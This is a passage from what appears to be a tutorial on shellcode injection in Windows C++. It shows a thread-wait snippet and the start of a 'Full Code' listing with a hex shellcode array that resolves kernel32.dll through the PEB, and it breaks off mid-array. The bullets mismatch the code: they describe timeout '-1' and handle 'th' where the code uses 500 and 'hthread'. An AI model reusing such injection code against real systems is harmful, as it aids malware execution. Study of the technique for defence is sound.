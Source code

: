 Finally, the code waits for the thread to complete using WaitForSingleObject, ensuring that the injected shellcode has finished execution before proceeding or exiting.
```cpp
if (hthread != NULL) {
		WaitForSingleObject(hthread, 500);
		CloseHandle(hthread);
		return 0;
	}
```
* `WaitForSingleObject():` Waits until the specified object is in the signaled state or the time-out interval elapses.
* `th:` Handle to the thread.
* `-1:` The time-out interval in milliseconds. -1 specifies an infinite time-out period, meaning it waits indefinitely until the thread has finished executing.

## Full Code
```cpp
// Shellcode: Hello from offensive Panda
unsigned char sc[] = { 0x40, 0x55, 0x57, 0x48, 0x81, 0xEC, 0xB8, 0x03,
	0x00, 0x00, 0x48, 0x8D, 0x6C, 0x24, 0x60, 0x65, 0x48, 0x8B, 0x04, 0x25,
	0x60, 0x00, 0x00, 0x00, 0x48, 0x89, 0x45, 0x00, 0x48, 0x8B, 0x45, 0x00,
	0x48, 0x8B, 0x40, 0x18, 0x48, 0x89, 0x45, 0x08, 0x48, 0x8B, 0x45, 0x08,
	0xC6, 0x40, 0x48, 0x00, 0x48, 0x8B, 0x45, 0x00, 0x48, 0x8B, 0x40, 0x18,
	0x48, 0x83, 0xC0, 0x20, 0x48, 0x89, 0x85, 0x30, 0x01, 0x00, 0x00, 0x48,
	0x8B, 0x85, 0x30, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x00, 0x48, 0x89, 0x85,
	0x38, 0x01, 0x00, 0x00, 0x48, 0xB8, 0x6B, 0x00, 0x65, 0x00, 0x72, 0x00,
	0x6E, 0x00, 0x48, 0x89, 0x45, 0x38, 0x48, 0xB8, 0x65, 0x00, 0x6C, 0x00,
	0x33, 0x00, 0x32, 0x00, 0x48, 0x89, 0x45, 0x40, 0x48, 0xB8, 0x2E, 0x00,
	0x64, 0x00, 0x6C, 0x00, 0x6C, 0x00, 0x48, 0x89, 0x45, 0x48, 0x48, 0xC7,
	0x45, 0x50, 0x00, 0x00, 0x00, 0x00, 0x48, 0xC7, 0x85, 0x50, 0x01, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x30, 0x01, 0x00, 0x00,
	0x48, 0x8B, 0x00, 0x48, 0x89, 0x85, 0x38, 0x01, 0x00, 0x00, 0x48, 0x8B,
	0x85, 0x38, 0x01, 0x00, 0x00, 0x48, 0x83, 0xE8, 0x10, 0x48, 0x89, 0x85,
	0x58, 0x01, 0x00, 0x00, 0xC7, 0x85, 0x60, 0x01, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x48, 0x8B, 0x85, 0x58, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x40,
	0x60, 0x48, 0x89, 0x85, 0x48, 0x01, 0x00, 0x00, 0x48, 0x8D, 0x45, 0x38,
	0x48, 0x89, 0x85, 0x40, 0x01, 0x00, 0x00, 0xC7, 0x85, 0x60, 0x01, 0x00,
	0x00, 0x01, 0x00, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x48, 0x01, 0x00, 0x00,
	0x0F, 0xB7, 0x00, 0x85, 0xC0, 0x75, 0x0F, 0xC7, 0x85, 0x60, 0x01, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x00, 0xE9, 0x2E, 0x01, 0x00, 0x00, 0x48, 0x8B,
	0x85, 0x48, 0x01, 0x00, 0x00, 0x0F, 0xB6, 0x00, 0x88, 0x85, 0x64, 0x01,
	0x00, 0x00, 0x48, 0x8B, 0x85, 0x48, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x00,
	0x3D, 0xFF, 0x00, 0x00, 0x00, 0x7E, 0x13, 0x48, 0x8B, 0x85, 0x48, 0x01,
	0x00, 0x00, 0x0F, 0xB7, 0x00, 0x66, 0x89, 0x85, 0x68, 0x01, 0x00, 0x00,
	0xEB, 0x46, 0x0F, 0xBE, 0x85, 0x64, 0x01, 0x00, 0x00, 0x83, 0xF8, 0x41,
	0x7C, 0x1E, 0x0F, 0xBE, 0x85, 0x64, 0x01, 0x00, 0x00, 0x83, 0xF8, 0x5A,
	0x7F, 0x12, 0x0F, 0xBE, 0x85, 0x64, 0x01, 0x00, 0x00, 0x83, 0xC0, 0x20,
	0x88, 0x85, 0x65, 0x01, 0x00, 0x00, 0xEB, 0x0D, 0x0F, 0xB6, 0x85, 0x64,
	0x01, 0x00, 0x00, 0x88, 0x85, 0x65, 0x01, 0x00, 0x00, 0x66, 0x0F, 0xBE,
	0x85, 0x65, 0x01, 0x00, 0x00, 0x66, 0x89, 0x85, 0x68, 0x01, 0x00, 0x00,
	0x48, 0x8B, 0x85, 0x40, 0x01, 0x00, 0x00, 0x0F, 0xB6, 0x00, 0x88, 0x85,
	0x64, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x40, 0x01, 0x00, 0x00, 0x0F,
	0xB7, 0x00, 0x3D, 0xFF, 0x00, 0x00, 0x00, 0x7E, 0x13, 0x48, 0x8B, 0x85,
	0x40, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x00, 0x66, 0x89, 0x85, 0x6C, 0x01,
	0x00, 0x00, 0xEB, 0x46, 0x0F, 0xBE, 0x85, 0x64, 0x01, 0x00, 0x00, 0x83,
	0xF8, 0x41, 0x7C, 0x1E, 0x0F, 0xBE, 0x85, 0x64, 0x01, 0x00, 0x00, 0x83,
	0xF8, 0x5A, 0x7F, 0x12, 0x0F, 0xBE, 0x85, 0x64, 0x01, 0x00, 0x00, 0x83,
	0xC0, 0x20, 0x88, 0x85, 0x65, 0x01, 0x00, 0x00, 0xEB, 0x0D, 0x0F, 0xB6,
	0x85, 0x64, 0x01, 0x00, 0x00, 0x88, 0x85, 0x65, 0x01, 0x00, 0x00, 0x66,
	0x0F, 0xBE, 0x85, 0x65, 0x01, 0x00, 0x00, 0x66, 0x89, 0x85, 0x6C, 0x01,
	0x00, 0x00, 0x48, 0x8B, 0x85, 0x48, 0x01, 0x00, 0x00, 0x48, 0x83, 0xC0,
	0x02, 0x48, 0x89, 0x85, 0x48, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x40,
	0x01, 0x00, 0x00, 0x48, 0x83, 0xC0, 0x02, 0x48, 0x89, 0x85, 0x40, 0x01,
```